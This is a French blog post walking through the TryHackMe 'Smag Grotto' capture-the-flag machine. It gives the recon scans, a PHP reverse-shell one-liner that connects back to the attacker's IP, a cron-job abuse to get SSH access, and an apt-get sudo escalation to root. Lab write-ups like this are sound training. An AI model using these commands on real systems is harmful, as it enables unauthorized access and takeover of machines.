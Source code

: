```yaml
---
title: Smag Grotto
slug: smag-grotto
date: 2022-04-19T20:00:00+02:00
image: uploads/9bb0d72deccee46be9ea72cbdf51f956.webp
categories:
    - TryHackMe
    - Capture the flag
--- 
```


Voici la solution pour la machine Smag Grotto sur TryHackMe. Tout d'abord, nous allons lancer un scan pour voir quels ports sont ouverts sur la machine.

```bash
nmap -A 10.10.150.39
```

Il y a deux ports ouverts, dont le serveur web qui nous intéresse et voici la page d'accueil :

![](uploads/2a459b3460d74ed70d4351f929ae947b.webp)

Comme nous ne trouvons rien de pertinent sur la page d'accueil, nous utilisons Nikto pour essayer de trouver une page cachée et ainsi nous trouvons un répertoire /mail et voici le contenu de la page :

```bash
nikto -h http://10.10.150.39
```

![](uploads/32fa1b468c377e46afa0f1addbd230d1.webp)

Nous arrivons sur une page contenant une liste d'emails où le premier email nous fournit un fichier contenant une trace réseau et avec Wireshark nous trouvons un nom d'utilisateur et un mot de passe

![](uploads/c15333a8e644c6d588a205882bea0818.webp)

Pour pouvoir se connecter à cette page d'administration, nous devons modifier le fichier hosts avec l'adresse IP pointant vers le nom de domaine development.smag.thm trouvé avec cette commande :

```bash
gobuster vhost -u http://10.10.150.39 -w /usr/share/worldlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
```

![](uploads/fd5c4289be54992f0d031b06280f33f2.webp) ![](uploads/5822c98a64b962d68f727e31e4f29616.webp)

Ainsi, après s'être connecté, nous avons accès à une interface pour exécuter des commandes sur la machine. Nous commençons par exécuter Pwncat puis nous recherchons un Reverse Shell sur [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) afin que la cible se connecte à notre machine pour obtenir un shell.

```bash
pwncat-cs -lp 1234
```

```bash
php -r '$sock=fsockopen("10.8.74.196",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![](uploads/036cf2a4a1171e42f47156c78a8a6477.webp)

Ensuite, nous découvrons qu'une commande est exécutée toutes les minutes. Nous pouvons donc l'exploiter et nous connecter en tant que l'utilisateur jake.

```bash
ssh-keygen -o
```

```bash
ssh -i /home/baptiste/id_rsa jake@10.10.150.39
```

Lorsque nous avons récupéré le flag user nous voyons que le binaire apt-get est exploitable donc nous trouvons sur le site [GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/#sudo) la commande pour devenir super utilisateur.

```bash
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/bash
```

![](uploads/06a506918534221a33053234c97a46c2.webp)

